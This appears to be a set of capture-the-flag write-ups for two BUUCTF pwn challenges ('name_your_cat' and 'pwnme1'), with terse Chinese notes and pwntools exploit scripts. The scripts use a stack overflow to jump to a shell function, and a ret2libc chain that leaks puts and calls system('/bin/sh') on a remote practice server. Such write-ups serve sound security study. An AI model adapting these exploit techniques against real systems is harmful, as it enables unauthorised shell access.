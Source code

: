 # buu089-wustctf2020_name_your_cat
直接溢出。
```python
from pwn import *
context.log_level = 'debug'

# io = process('./wustctf2020_name_your_cat')
io = remote('node4.buuoj.cn', 29532)
elf = ELF('./wustctf2020_name_your_cat')

io.sendlineafter(b'Name for which?\n>', b'7')
io.sendlineafter(b'Give your name plz: ', p32(elf.symbols['shell']))

for i in range(4):
	io.sendlineafter(b'Name for which?\n>', b'1')
	io.sendlineafter(b'Give your name plz: ', b'A')
	
io.interactive()
```

# buu090-pwnme1
scanf直接溢出。
```python
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'

# io = process('./pwnme1')
io = remote('node4.buuoj.cn', 29037)
elf = ELF('./pwnme1')

io.sendlineafter(b'>> 6. Exit    \n', b'5')

payload = cyclic(0xA4 + 4)
payload += p32(elf.plt['puts'])
payload += p32(0x8048898)
payload += p32(elf.got['puts'])
payload += p32(elf.symbols['getfruit'])

io.sendlineafter(b'Please input the name of fruit:', payload)

io.recvuntil(b'...\n')
puts = u32(io.recv(4))
libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
system = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

payload = cyclic(0xA4 + 4)
payload += p32(system)
payload += p32(0)
payload += p32(binsh)

io.sendlineafter(b'Please input the name of fruit:', payload)

io.interactive()
```
